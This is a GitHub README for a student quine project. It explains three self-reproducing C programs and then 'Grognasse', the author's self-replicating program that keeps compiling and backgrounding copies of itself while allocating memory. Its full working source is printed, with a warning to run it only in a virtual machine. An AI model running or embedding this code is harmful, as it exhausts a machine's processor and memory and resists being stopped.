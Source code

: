
# Dr-Quine

This project contains 4 programs including 1 malware putting into  practice the concept of Quine programs  
The 4 programs are available in C language and in nasm

To run the programs in assembler, please execute the following command

```shell
nasm -f elf64 [program.s]
```
and
```shell
gcc -Wl,-z,noexecstack -no-pie [program.o]
```
## Colleen Description

The purpose of the Colleen program is to display its exact source code as if we had executed a "cat" on our program. There are however some constraints imposed such as the fact that the program must contain two different comments, a main function which would call another function.bIt was forbidden to display the source code through the location of the file in  the hard disk and
 the program had to take no argument


## Code explanation Colleen

Here is the Colleen program:

```C
void u(char*a){printf(a,10,34,a);}//)
int main(){char*a="void u(char*a){printf(a,10,34,a);}//)%cint main(){char*a=%2$c%3$s%2$c;u(a);/*o*/}";u(a);/*o*/}
```

%1$c = char '\n'  
%2$c = char '"'  
%3$s = char * a  

I put my whole program in a string as well as printf string "arguments"  
 that will display the string in the string surrounded by quotes
## Grace Description

The Grace program works the same way as Colleen but instead of  
 displaying its source code, it will write it to a new file named "Grace_kid.c"  
There was also an additional constraint, I was not allowed to  
 declare a main function but I could use macros (3 max)

## Code explanation Grace

Here is the Grace program:

```C
#include <stdio.h>
#define s "#include <stdio.h>%1$c#define s %2$c%3$s%2$c%1$c#define m(x) int main(){FILE*f=fopen(x,%2$cw%2$c);fprintf(f,s,10,34,s);fclose(f);}%1$cm(%2$cGrace_kid.c%2$c)//c"
#define m(x) int main(){FILE*f=fopen(x,"w");fprintf(f,s,10,34,s);fclose(f);}
m("Grace_kid.c")//c
```

The code is very similar to Colleen, it's just in macros  
 and calls a few extra functions to create files
## Sully Description

The slightly more complex Sully program will receive an int x directly  
 in its source code and will then self-replicate x times.
For example if x = 5  
 you will have after execution the files: Sully4.c, Sully3.c....Sully0.c.  
 If you enter a very large number, you can abort execution with '^C'.  
 Note that the function will not directly create x files  
  but only one and will execute it to create another and so on

## Code explanation Sully

Here is the Sully program:

```C
#include <stdio.h> <string.h> <stdlib.h>
#define b 5
#define s "#include <stdio.h> <string.h> <stdlib.h>%1$c#define b %4$d%1$c#define s %2$c%3$s%2$c%1$c#define m() int main(){char y[100]=%2$cSully%2$c;char r[100];sprintf(r,%2$c%%d%2$c,b-1);strcat(y,r);strcat(y,%2$c.c%2$c);FILE*f=fopen(y,%2$cw%2$c);fprintf(f,s,10,34,s,b-1);fclose(f);if(b>1){char w[160]=%2$cgcc %2$c;strcat(w, y);system(w);system(%2$c./a.out%2$c);}}%1$cm()//c"
#define m() int main(){char y[100]="Sully";char r[100];sprintf(r,"%d",b-1);strcat(y,r);strcat(y,".c");FILE*f=fopen(y,"w");fprintf(f,s,10,34,s,b-1);fclose(f);if(b>1){char w[160]="gcc ";strcat(w, y);system(w);system("./a.out");}}
m()//c
```

%4$d = b - 1 (5 - 1)  

I started by defining in macro 'b' the decrementor.
Since Itoa doesn't work  
 on all machines depending on language versions, I used "sprintf"   
 to convert 'b' to string for embedding in filenames with Strcat.
Then I used   
the "system" command to have my code run the file it had just created  
 so it could in turn do the same
## Grognasse Description

Grognasse is a little malware created by using Sully's code.  
Unlike Sully, the int x is always initially equal to 1
but it will increment.  
 Moreover, each time a file is executed, Grognasse will create  
  x sub-files while continuing to increment x.  
I also added a malloc(1,000,000) to each call to make the memory work  
 and finally I made the execution of the program a process,  
therefore it is no longer possible to stop it via ' ^C'.  
Several processes will therefore be created almost simultaneously,  
 which will make the execution quite difficult to stop.

Note: in assembler, I didn't use malloc
## Code explanation Grognasse

### **Warning !!**  

Although Grognasse is not a very powerful virus,  
 do not run it outside of a virtual machine.  
Otherwise, you expose yourself to a significant slowdown in your performance  
 because your processor will be overloaded.  

Here is the Grognasse program:

```C
#include <stdio.h> <string.h> <stdlib.h>
#define b 1
#define s "#include <stdio.h> <string.h> <stdlib.h>%1$c#define b %4$d%1$c#define s %2$c%3$s%2$c%1$c#define m() int main(){for(int i=b; i>0; i++){char*h=malloc(1000000);char y[100]=%2$cGrognasse%2$c;char r[100];sprintf(r,%2$c%%d%2$c,b+1);strcat(y,r);strcat(y,%2$c.c%2$c);FILE*f=fopen(y,%2$cw%2$c);fprintf(f,s,10,34,s,b+1);fclose(f);char w[160]=%2$cgcc %2$c;strcat(w, y);system(w);system(%2$c./a.out &%2$c);}}%1$cm()//c"
#define m() int main(){for(int i=b; i>0; i++){char*h=malloc(1000000);char y[100]="Grognasse";char r[100];sprintf(r,"%d",b+1);strcat(y,r);strcat(y,".c");FILE*f=fopen(y,"w");fprintf(f,s,10,34,s,b+1);fclose(f);char w[160]="gcc ";strcat(w, y);system(w);system("./a.out &");}}
m()//c
```

```BASH
./a.out &
```
The presence of the '&' character makes the execution a process

## Authors

- [@Lbensimo](https://github.com/Lbensimo)

